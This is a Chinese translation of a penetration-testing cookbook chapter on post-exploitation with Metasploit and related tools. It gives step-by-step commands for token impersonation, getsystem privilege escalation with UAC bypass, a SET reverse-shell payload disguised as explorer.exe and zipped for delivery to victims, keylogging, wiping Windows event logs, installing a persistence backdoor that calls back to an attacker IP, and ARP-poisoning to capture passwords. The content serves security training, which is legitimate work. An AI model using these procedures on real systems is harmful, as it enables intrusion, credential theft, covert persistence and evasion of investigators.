# 第七章 权限提升

> 作者：Willie L. Pritchett, David De Smet

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

我们已经获得了想要攻击的计算机的权限。于是将权限尽可能提升就非常重要。通常，我们能访问较低权限的用户账户（计算机用户），但是，我们的目标账户可能是管理员账户。这一章中我们会探索几种提升权限的方式。

## 7.1 使用模拟令牌

这个秘籍中，我们会通过使用模拟令牌，模拟网络上的另一个用户。令牌包含用于登录会话和识别用户、用户组合用户权限的安全信息。当用户登入 Windows 系统是，它们会得到一个访问令牌，作为授权会话的一部分。令牌模拟允许我们通过模拟指定用户来提升自己的权限。例如，系统账户可能需要以管理员身份运行来处理特定的任务。并且他通常会在结束后让渡提升的权限。我们会使用这个弱点来提升我们的访问权限。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 受害者的目标主机

### 操作步骤

我们从 Meterpreter  开始探索模拟令牌。你需要使用 Metasploit  来攻击主机，以便获得 Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得访问权限。



下面是具体步骤：

1.  我们可以在 Meterpreter 使用`incognito`来开始模拟过程：

    ```
    use incognito
    ```
    
2.  展示`incognito`的帮助文档，通过输入`help`命令：

    ```
    help
    ```
    
3.  你会注意到我们有几个可用的选项：

    
    
4.  下面我们打算获得可用用户的列表，这些用户当前登入了系统，或者最近访问过系统。我们可以通过以`-u`执行`list_tokens`命令来完成它。

    ```
    list_tokens –u
    ```
    
    
    
5.  下面，我们执行模拟攻击。语法是`impersonate_token [name of the account to impersonate]`。

    ```
    impersonate_token \\willie-pc\willie 
    ```
    
6.  最后，我们选择一个 shell 命令来运行。如果我们成功了，我们就以另一个用户的身份在使用当前系统。

### 工作原理

这个秘籍中，我们以具有漏洞的主机开始，之后使用 Meterpreter 在这台主机上模拟另一个用户的令牌。模拟攻击的目的是尽可能选择最高等级的用户，最好是同样跨域连接的某个人，并且使用它们的账户来深入挖掘该网络。

## 7.2 本地提权攻击

这个秘籍中，我们会在一台具有漏洞的主机上进行提权。本地提权允许我们访问系统或域的用户账户，从而利用我们所连接的当前系统。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

让我们在 Meterpreter shell 中开始执行本地提权攻击。你需要使用 Metasploit 攻击某个主机来获得 Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得主机的访问。

1.  一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    

2.  下面，使用`-h`选项查看`getsystem `的帮助文件：

    ```
    getsystem –h
    ```
    
3.  最后我们不带任何选项来运行`getsystem`：

    ```
    getsystem
    ```
    
    > 如果你尝试获得 Windows 7 主机的访问，你必须在执行`getsystem`命令之前执行`bypassuac `。`bypassuac `允许你绕过[微软的用户账户控制](http://windows.microsoft.com/en-us/windows7/products/ features/user-account-control)。这个命令这样运行：`run post/windows/escalate/bypassuac`。
    
4.  下面，我们执行最后的命令来获取访问。

5.  这就结束了。我们已经成功进行了提权攻击。

### 工作原理

这个秘籍中，我们使用了 Meterpreter 对受害者的主机进行本地提权攻击。我们从 Meterpreter 中开始这个秘籍。之后我们执行了`getsystem `命令，它允许 Meterpreter 尝试在系统中提升我们的证书。如果成功了，我们就有了受害者主机上的系统级访问权限。

## 7.3 掌握社会工程工具包（SET）

这个秘籍中，我们会探索社会工程工具包（SET）。SET 是个包含一些工具的框架，让你能够通过骗术来攻击受害者。SET 由  David Kennedy 设计。这个工具很快就成为了渗透测试者工具库中的标准。

### 操作步骤

掌握 SET 的步骤如下所示。

1.  打开终端窗口，通过按下终端图标，并访问 SET 所在的目录：

    ```
    se-toolkit
    ```
    
2.  完成之后，你会看到 SET 菜单。SET 菜单有如下选项：


    + Social-Engineering Attacks （社会工程攻击）
    + Fast-Track Penetration Testing （快速跟踪渗透测试）
    + Third Party Modules （第三方模块）
    + Update the Metasploit Framework （更新 Metasploit 框架）
    + Update the Social-Engineer Toolkit （更新社会工程工具包）
    + Update SET configuration （更新 SET 配置）
    + Help, Credits, and About （帮助，作者和关于）
    + Exit the Social-Engineer Toolkit（退出社会工程工具包）
    
    > 在进行攻击之前，最好先将升级 SET ，因为作者经常会升级它。
    
    这些选项如下图所示：
    
    
    
3.  出于我们的目的，我们选择第一个选项来开始社会工程攻击：

    ```
    1
    ```
    
4.  我们现在会看到社会工程攻击的列表，它们展示在下面的截图中。出于我们的目的，我们使用` Create a Payload and Listener`（创建载荷和监听器，选项 4）。

    ```
    4
    ```
    
    

5.  下面，我们被询问输入载荷的 IP 来反转链接。这里，我们输入我们的 IP 地址：

    ```
    192.168.10.109
    ```
    
    
    
6.  你会看到载荷的列表和描述，它们为`Payload and Listener`选项生成。选择`Windows Reverse_TCP Meterpreter`。这会让我们连接到目标上，并对其执行 Meterpreter 载荷。

    ```
    2
    ```
    
    
    
7.  最后，我们被询问作为监听器端口的端口号。已经为你选择了 443，所以我们就选择它了。

    ```
    443
    ```
    
8.  一旦载荷准备完毕，你会被询问来启动监听器，输入`Yes`：

    
    
9.  你会注意到 Metasploit 打开了一个处理器。

    
    
### 工作原理

这个秘籍中，我们探索了 SET 的用法。SET 拥有菜单风格的接口，使它易于生成用于欺骗受害者的工具。我们以初始化 SET 开始，之后，SET 为我们提供了几种攻击方式。一旦我们选择了它，SET 会跟 Metasploit 交互，同时询问用户一系列问题。在这个秘籍的最后，我们创建了可执行文件，它会提供给我们目标主机的 Meterpreter  活动会话。

### 更多

作为替代，你可以从桌面上启动 SET，访问`Applications | Kali Linux | Exploitation Tools | Social Engineering Tools | Social Engineering Toolkit | Set`。

**将你的载荷传给受害者**

下面的步骤会将你的载荷传给受害者。

1.  在 SET 目录下，你胡注意到有个 EXE 文件叫做`msf.exe`。推荐你将文件名称修改为不会引起怀疑的名称。这里，我们将它改为`explorer.exe`。最开始，我们打开终端窗口并访问 SET 所在的目录。

    ```
    cd /usr/share/set 
    ```
    
2.  之后我们获得目录中所有项目的列表。

    ```
    ls
    ```
    
3.  之后我们将这个文件重命名为`explorer.exe`：

    ```
    mv msf.exe explorer.exe
    ```
    
    

4.  现在我们压缩` explorer.exe`载荷。这里，ZIP 归档叫做`healthyfiles`。

    ```
    zip healthyfiles explorer.exe 
    ```
    
5.  既然你已经拥有了 ZIP 归档，你可以把文件以多种方式分发给受害者。你可以通过电子邮件来传递，也可以放进 U 盘并手动在受害者机器中打开，以及其它。探索这些机制会给你想要的结果来达成你的目标。

## 7.4 收集受害者数据

这个秘籍中，我们会探索如何使用 Metasploit 来收集受害者的数据。有几种方式来完成这个任务，但是我们会探索在目标机器上记录用户击键顺序的方式。收集受害者数据可以让我们获得潜在的额外信息，我们可以将其用于进一步的攻击中。对于我们的例子，我们会收集目标主机上用户输入的击键顺序。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

让我们开始通过 Meterpreter  shell 来收集受害者数据。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。

1.  一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    
    
2.  下面，我们执行下面的命令来开启键盘记录器：

    ```
    keyscan_start
    ```
    
    
    
3.  最后，我们输入` keyscan_dump`命令，将用户的击键顺序输出到屏幕上。

    ```
    keyscan_dump
    ```
    
### 工作原理

这个秘籍中，我们使用 Meterpreter 收集了受害者的数据。

### 更多

有一种不同的方式，你可以使用它们来收集受害者机器上的数据。这个秘籍中，我们使用了 Metasploit 和 Metasploit keyscan 来记录击键顺序，但是我们也可以使用 Wireshark 或 airodump-ng 来更简单地收集数据。

这里的关键是探索其它工具，便于你找到最喜欢的工具来完成你的目标。

## 7.5 清理踪迹

这个秘籍中，我们会使用 Metasploit 来清除我们的踪迹。在黑进主机之后执行清理是个非常重要的步骤，因为你不想在经历所有麻烦来获得访问权限之后还被人查水表。幸运的是，Metasploit 拥有一种方式来非常简单地清除我们的踪迹。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

需要执行步骤如下所示：

1.  让我们开始使用  Meterpreter shell 来清理我们的踪迹。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    
    
2.  下面，我们需要运行 IRB，以便进行日志移除操作。我们打开帮助文件：

    ```
    irb
    ```
    
    
    
3.  下面，我们告诉 IRB 要移除哪个文件。下面是一个可用的选择：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    
4.  出于我们的目的，我们把它们都清理掉。你需要将这些一次键入：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    
5.  现在我们执行命令来清理日志文件：

    ```
    Log.clear 
    ```
    
6.  这就结束了。我们只用了这么少的命令就能清理我们的踪迹。

### 工作原理

这个秘籍中，我们使用 Meterpreter  来清理我们在目标主机上的踪迹。我们从 Meterpreter 中开始这个秘籍，并启动了 IRB（一个 Ruby 解释器 shell）。下面，我们指定了想要清理的文件，并且最后键入了`Log.clear `命令来清理日志。要记住，一旦我们黑进了某个主机，你需要在最后执行这一步。你不能在清理踪迹之后再执行更多的操作，这样只会更加更多的日志条目。

## 7.6 创建永久后门

这个秘籍中，我们会使用 Metasploit persistence 来创建永久后门。一旦你成功获得了目标机器的访问权限，你需要探索重新获得机器访问权的方式，而不需要再次黑进它。如果目标机器的用户做了一些事情来终端连接，比如重启机器，后门的作用就是允许重新建立到你机器的连接。这就是创建后门非常方便的原因，它可以让你控制目标机器的访问。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

让我们开始植入我们的永久后门。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。

1.  一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    

2.  下面，我们需要运行 persistence，以便创建我们的后门。我们打开帮助文件：

    ```
    run persistence –h 
    ```
    
3.  永久后门有几个选项，包括：

    +   `-A`：这个选项会自动启动一个匹配的多重处理器来链接到代理端。
    
    +   `-S`：这个选项让后门自动化启动为系统服务。
    
    +   `-U`：这个选项让后门在用户启动系统时自动启动。
    
    +   `-i`：这个选项设置两次尝试回复攻击者机器之间的秒数。
    
    +   `-p`：这个选项设置攻击者机器上 Metasploit 的监听端口。
    
    +   `-P`：这个选项设置所用的载荷。默认使用` Reverse_tcp `，并且它通常是你想使用的东西。
    
    +   `-r`：这个选项设置攻击者机器的 IP 地址。
    
4.  现在，我们执行命令来建立后门：

    ```
    run persistence –U –A –i 10 – 8090 –r 192.168.10.109
    ```
    
5.  后门现在已经建立了。如果成功的话，你会注意到你有了第二个 Meterpreter  会话。

    
    
### 工作原理

这个秘籍中，我们使用 Meterpreter  来建立永久后门。我们在黑进目标主机并获得  Meterpreter shell 之后开始了这个秘籍。之后我们通过浏览帮助文档那个，探索了一些可用的永久化方式。最后，我们通过运行安装命令并设置它的选项来完成后门的安装。

## 7.7 中间人（MITM）攻击

这个秘籍中，我们会对目标进行中间人（MITM）攻击。MITM攻击允许我们窃听目标和别人的通信。在我们的例子中，当某个 Windows 主机在<http://www.yahoo.com>收发邮件时，我们使用 Ettercap 来窃听它的通信。

### 准备

为了执行这个秘籍，我们需要：

+ 无线网络连接

+ 连接到无线网络的机器

### 操作步骤

让我们启动 Ettercap 来开始中间人攻击。

1.  打开终端窗口并启动 Ettercap。使用`-G`选项加载 GUI：

    ```
    ettercap –G
    ```
    
    
    
2.  我们以打开` Unified sniffing`（统一嗅探）开始。你可以按下`Shift + U`或者访问菜单中的` Sniff | Unified sniffing`。

    

3.  选择网络接口。在发起 MITM 攻击的情况中，我们应该选项我们的无线接口。

    
    
4.  下面，我们打开`Scan for hosts`（扫描主机）。可以通过按下`Ctrl + S`或访问菜单栏的` Hosts | Scan for hosts`来完成。

    

5.  下面，我们得到了`Host List`（主机列表）。你可以按下`H`或者访问菜单栏的`Hosts | Host List`。

    
    
6.  我们下面需要选择或设置我们的目标。在我们的例子中，我们选择`192.168.10.111`作为我们的`Target 1`，通过选中它的 IP 地址并按下` Add To Target 1 `（添加到目标 1）按钮。

    
    
7.  现在我们能够让 Ettercap 开始嗅探了。你可以按下`Ctrl + W`或访问菜单栏的` Start | Start sniffing`。

    

8.  最后，我们开始进行 ARP 毒化。访问菜单栏的`Mitm | Arp poisoning`。

    

9.  在出现的窗口中，选中` Sniff  remote connections`（嗅探远程连接）的选项。

    

0.  取决于网络环境，我们会看到信息。

    

1.  一旦我们找到了想要找的信息（用户名和密码）。我们可以关闭 Ettercap。你可以按下`Ctrl + E`或访问菜单栏的`Start | Stop sniffing`来完成它。

    

2.  现在我们关闭 ARP 毒化，使网络恢复正常。

    

### 工作原理

这个秘籍包括 MITM 攻击，它通过 ARP 包毒化来窃听由用户传输的无线通信。

> 你可以通过浏览<http://en.wikipedia.org/wiki/Man-in-the-middle_attack#Example_of_an_attack>来了解更多关于 MITM 的信息。
